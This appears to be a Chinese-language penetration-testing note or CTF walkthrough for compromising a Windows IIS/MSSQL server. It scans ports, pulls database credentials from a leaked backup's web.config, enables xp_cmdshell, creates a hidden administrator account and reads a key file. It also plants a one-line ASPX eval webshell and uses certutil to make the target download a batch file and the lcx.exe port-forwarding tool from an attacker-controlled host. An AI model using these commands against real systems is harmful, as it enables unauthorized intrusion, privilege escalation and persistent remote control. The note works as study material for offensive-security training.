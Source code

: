 ![img](file:///C:\Users\28633\AppData\Roaming\Tencent\QQTempSys\%W@GJ$ACOF(TYDYECOKVDYB.png)172.93.188.118:81
无法知道用户名密码

通过报错可以知道是Windows的服务器

使用zenmap端口扫描发现有web81端口，也有1433端口(SQL SERVER)  #MYSQL:3306

扫描目录 backup.rar
发现web.config，是Windows server的数据库配置文件

使用navicat连接到他的数据库

可以发现用户名和密码（如果密码使用md5加密，就自己制造）

登录进去，试试看文件上传可不可以用

如果web层面不行，就从数据库进行渗透

mssql提权命令

```sql
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'xp_cmdshell',1;
reconfigure;
exec sp_configure;
exec xp_cmdshell 'net user zj pa$$w0rd /add';
exec xp_cmdshell 'net localgroup administrators zj /add';
```

读取文件

```
exec xp_cmdshell 'type C:\Users\Administrator\Desktop\key.txt';
```

查看桌面信息

```
exec xp_cmdshell 'dir C:\Users\Administrator\Desktop\';
```

通过数据库添加一句话木马

```
exec xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > C:\\inetpub\\wwwroot\\a.aspx';
```

当用菜刀连接到Windows操作系统的时候，有可能key在回收站里！！！！！！！！！

让对方下载自己这边web服务器的文件

```
exec xp_cmdshell 'certutil -urlcache -f -split ![img](file:///C:\Users\28633\AppData\Roaming\Tencent\QQTempSys\%W@GJ$ACOF(TYDYECOKVDYB.png)http://192.168.1.149/3389.bat';
exec xp_cmdshell 'certutil -urlcache -f -split http://192.168.1.149/lcx.exe';
```

运行刚刚让他下载的东西
